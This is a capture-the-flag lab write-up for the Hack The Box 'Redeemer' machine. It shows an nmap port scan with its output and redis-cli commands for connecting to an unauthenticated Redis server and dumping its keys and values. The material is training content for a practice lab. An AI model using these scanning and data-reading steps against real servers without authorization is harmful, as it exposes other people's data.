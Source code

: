 Title : Redeemer Machine
Date  : 2024-05-19 19:10 
Category : HTB
Slug : redeemer


# Redeemer
#HTB/STARTING_POINT

This machine show you how to interact with a Redis server .


Doing Nmap scan show open port and specifically redid port open on :

```sh
kali@kali:~$ nmap -sC -sV -T4 -p- -oA nmap/Redeemer <serverIp>
```

Result :

```shell-session
# Nmap 7.93 scan initiated Thu Aug 24 02:07:23 2023 as: nmap -sC -sV -T4 -p- -oA nmap/Redeemer 10.129.6.102
Warning: 10.129.6.102 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.6.102
Host is up (0.11s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
6379/tcp  open     redis   Redis key-value store 5.0.7
23201/tcp filtered unknown
23819/tcp filtered unknown
25153/tcp filtered unknown
34008/tcp filtered unknown
35903/tcp filtered unknown
39049/tcp filtered unknown
40140/tcp filtered unknown
47535/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 24 02:25:02 2023 -- 1 IP address (1 host up) scanned in 1059.07 seconds

```

Connect to redis ;
```sh
kali@kali:~$ redis-cli -h <hostname/ip>
```

Get all db ;
```sh
redis-cli> config get databases
```

Get existed keys with correspond db index;
```sh
redis-cli> info keyspace 
```

Select desired db;
```sh
redis-cli> select <N>
```

Get info on Redis server;
```sh
redis-cli> info
```

Dump all keys;
```sh
redis-cli> keys *
```

Get random keys;
```sh
redis-cli> randomkey 
```

Print specified key value;
```sh
redis-cli> get <keyname>
```

